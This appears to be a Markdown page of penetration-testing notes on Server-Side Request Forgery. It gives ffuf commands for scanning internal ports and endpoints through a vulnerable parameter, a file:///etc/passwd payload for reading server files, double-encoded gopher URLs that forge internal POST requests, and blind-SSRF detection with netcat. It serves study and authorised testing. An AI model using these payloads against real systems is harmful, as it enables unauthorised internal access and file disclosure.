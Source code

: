 ```yaml
---
layout: default
title: SSRF
permalink: /Web/ssrf/
---
```


# Server-Side Request Forgery (SSRF)
This type of vulnerability occurs when an attacker can manipulate a web application into sending unauthorized requests from the server, because the web application fetches additional resources from a remote location based on user-supplied data, such as a URL.<br>
The following URL schemes are commonly used in the exploitation of SSRF vulnerabilities:
- http:// and https://: These URL schemes fetch content via HTTP/S requests. An attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network.
- file://: This URL scheme reads a file from the local file system. An attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI).
- gopher://: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP servers or databases.

## Confirming SSRF
- Supply a URL pointing to our system to the web aaplication, while we are listening with e.g. netcat.
- To determine, whether the HTTP response reflects the response, we can point the web application to itself, e.g. `http://127.0.0.1/index.php`.
If we see the HTML code in the response, the SSFR is not blind.

## Enumerating the System
We can do this using a fuzzer like ffuf.
```
seq 1 10000 > ports.txt
```
```
ffuf -w ./ports.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "variable=http://127.0.0.1:FUZZ/&<other_values_if_any>" -fr "<response_identifier_for_closed_port>"
```
*Note: First check the error message in case of a closed port to apply the `-fr` regex filter correctly.*

## Accessing Restricted Endpoints
First determine the web server's response when we access a non-existing page. We should also find the correct extension of the files as we can see in the `$extension` variable.
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "variable=http://$domain/FUZZ.$extension&<other_values_if_any>" -fr "<response_identifier_for_non_existing_page>"
```
## Local File Inclusion (LFI)
We can attempt to read local files from the file system using the `file://` URL scheme. E.g. by supplying the URL `file:///etc/passwd`

## The gopher Protocol
We can use SSRF to access restricted internal endpoints, but we are restricted to GET requests as there is no way to send a POST request with the http:// URL scheme. <br>
Instead, we can use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves by URL encoding the request, e.g.
```
POST /login.php HTTP/1.1
Host: <url>
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

password=admin
```
Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:
```
gopher://<url>:80/_POST%20/...[SNIP]
```
Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter dateserver, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a Malformed URL error. After URL encoding the entire gopher URL one more time, we can finally send the following request:
```
POST /index.php HTTP/1.1
Host: <ip>
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//<url>%3a80/_POST%2520/...[SNIP]
```
*Note: We can use the gopher protocol to interact with many internal services, not just HTTP servers.*

### Gopherus
We can utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. To run the tool, we need a valid Python2 installation. 
```
python2.7 gopherus.py
```
Example:
```
python2.7 gopherus.py --exploit smtp
```

## Blind SSRF
In many SSRF vulnerabilities, the response is not directly displayed to us.

### Detection
We can identify blind SSRF with the same method as mentioned earlier (supplying a URL to a system under our control and setting up a netcat listener).

### Enumeration
We might be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports or sometimes the web application responds with a distinguishable text for closed ports. <br>
If the error message is different for existing and non-existing files, we can use the same technique to identify existing files on the filesystem.



